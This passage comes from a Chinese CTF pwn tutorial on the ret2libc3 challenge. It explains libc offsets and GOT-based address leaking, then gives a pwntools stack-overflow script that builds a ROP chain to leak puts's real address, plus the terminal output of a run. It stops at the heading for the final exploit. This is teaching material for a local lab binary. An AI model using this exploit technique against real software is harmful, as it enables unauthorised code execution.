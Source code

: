 两个都没有，所以只能自己找

4、泄露地址

libc.so 动态链接库里的函数的偏移是固定的，system 函数是属于 libc 的，而且 libc 中也有/bin/s；每个 libc.so 中的函数偏移是固定的，libc 版本不同，偏移不同。找到 libc 版本，即可知道每个函数在这个 libc 文件的偏移量。

**libc 基地址 + 函数偏移量 = 函数真实地址**

所以我们目前需要：程序中某个函数的真实地址——>libc 版本——>libc 基地址

那么如何能够得到一个函数的真实地址呢？

采用 got 表泄露，got 表里存放着就是函数的真实地址，如果函数运行过一遍，里面存放的就是函数的真实地址，如果没有运行，就需要先动态链接重定位，这个过程请详见**动态链接**部分。

观察上面程序，我们的目的是要通过输入使栈溢出从而泄露某个函数的真实地址，而在 gets 函数之前执行的有 puts 函数，所以当我们输入值的时候 got 表中已近有 puts 函数的真实地址。

```bash
# -*- coding: utf-8 -*-
from pwn import *

p = process('./ret2libc3')
e = ELF('./ret2libc3')

puts_got_addr = e.got['puts']   #得到 puts 函数的 got 地址，这个地址存放着 puts 函数真实的地址，需要泄露的地址
puts_plt_addr = e.plt['puts']   #需要借助 puts 函数将泄露的地址返回给我们
main = e.symbols['main']        #在调用完 puts 函数将泄露地址返回给我们后，使程序回到 main 函数，重新栈溢出

payload = ''
payload += 'A'*112              #填充数据，即需要输入的数据
payload += p32(puts_plt_addr)   #原先这里是 gets 函数执行完后的返回地址，现覆盖返回地址为 puts 函数执行地址
payload += p32(main)            #按照上一步，这里应该为 puts 函数的返回地址，覆盖为 main 函数的地址
payload += p32(puts_got_addr)   #这里是 puts 函数的参数
#payload = flat(['A' * 112, puts_plt_addr, main, puts_got_addr])#或者使用这一行代替上面的 5 行

p.sendlineafter('Can you find it !?', payload)  #表示接收到这些字符串再发送 payload

puts_rel_addr = u32(p.recv()[0:4])  #将地址输出出来后再解包，此时就得到了 puts 函数的真实地址
print hex(puts_rel_addr)
```

```bash
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc3.py 
[+] Starting local process './ret2libc3': pid 75942
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xf7ddf150
[*] Stopped process './ret2libc3' (pid 75942)
```

得到了 puts 函数的真是地址为 0xf7ddf150

5、exp
